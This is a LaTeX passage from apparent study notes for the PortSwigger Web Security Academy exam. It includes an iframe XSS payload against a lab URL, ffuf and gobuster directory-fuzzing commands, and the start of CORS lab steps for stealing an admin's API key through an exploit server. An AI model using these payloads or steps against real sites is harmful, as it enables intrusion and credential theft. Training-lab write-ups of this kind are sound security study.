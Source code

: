 \documentclass[
  letterpaper,
]{article}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\subsubsection{5. DOM-based cookie
manipulation}\label{5-dom-based-cookie-manipulation}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
<iframe src="https://0a1100e803937b60c6874ab7003b00b5.web-security-academy.net/product?productId=1&'><script>print()</script>">
\end{Verbatim}

\section{Cross-origin resource sharing (CORS) + Information
disclosure}\label{cross-origin-resource-sharing-cors--information-disclosure}

\subsection{Approach}\label{approach-5}

Nothing to add here, I am 85\% sure these are not in exam pool, but for
CORS check \textbf{Access-Control-Allow-Credentials} headers in
responses and for Info disclosure you can use ffuf or gobuster:

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
ffuf -u http://kek.com/FUZZ -w /usr/share/dirb/wordlists/big.txt -t 50 -c
gobuster dir -u http://kek.com -w /usr/share/dirb/wordlists/common.txt
\end{Verbatim}

\subsection{Labs}\label{labs-4}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  CORS vulnerability with trusted insecure protocols
\end{enumerate}

\begin{quote}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Observe Access-Control-Allow-Credentials header in /accountDetails
\item
  Put Origin: stock.lab-id header
\item
  Go to your exploit server and create malicious payload to send
  admin\textquotesingle s api key to ur server:
\end{enumerate}
\end{quote}
\end{document}
